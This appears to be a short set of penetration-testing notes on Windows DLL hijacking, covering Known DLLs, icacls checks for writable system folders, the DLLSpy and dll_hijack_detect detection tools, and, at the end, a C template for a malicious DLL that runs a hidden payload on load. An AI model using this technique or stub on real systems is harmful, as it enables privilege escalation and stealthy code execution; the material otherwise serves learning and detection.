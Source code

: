 Source: <https://itm4n.github.io/windows-dll-hijacking-clarified/>

/!\ On a 64-bit version of Windows, 64-bit executables are located in C:\Windows\System32\ and 32-bit executables are located in C:\Windows\SysWow64\.

in this context, the term *Known DLL* has a very specific meaning. These DLLs are listed in the *HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs* registry key and are guaranteed to be loaded from the System folder.

*Note that services running under SYSTEM does not search through user path environment.*

```bash
icacls C:\Windows\System32
icacls C:\Windows\System
icacls C:\Windows
```

If we have access to **Write** access to those folders, we could replace the .DLL with a malicious one.

There is a tool developped by CyberArk called [DLLSpy](https://github.com/cyberark/DLLSpy) that can detects DLL hijacking in running processes, services and in their binaries.
Note that DLLSpy requires admin privilege.
We can also try by using "Start-Process"

```bash
DLLSpy.exe
Start-Process -PassThru process.exe | Get-Process -Module
```

[dll_hijack_detect](https://github.com/adamkramer/dll_hijack_detect) detects DLL hijacking in running processes on Windows systems
This program will:

1) Iterate through each running process on the system, identifying all the DLLs which they have loaded
2) For each DLL, inspect all the locations where a malicious DLL could be placed
3) If a DLL with the same name appears in multiple locations in the search order, perform an analysis based on which location is currently loaded and highlight the possibility of a hijack to the user

It also check each DLL to see whether it has been digitally signed.
This is because since Windows Vista and Windows Server 2008, new features take advantage of code-signing technologies:

- Administrator privilege is required to install unsigned kernel-mode components (device drivers, filter drivers, services, and so on.)

```bash
.\dll_hijack_detect_x64.exe
```

Here below is the code to create a malicious DLL

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 WinExec(PAYLOAD,SW_HIDE);
 return 0;
}
```
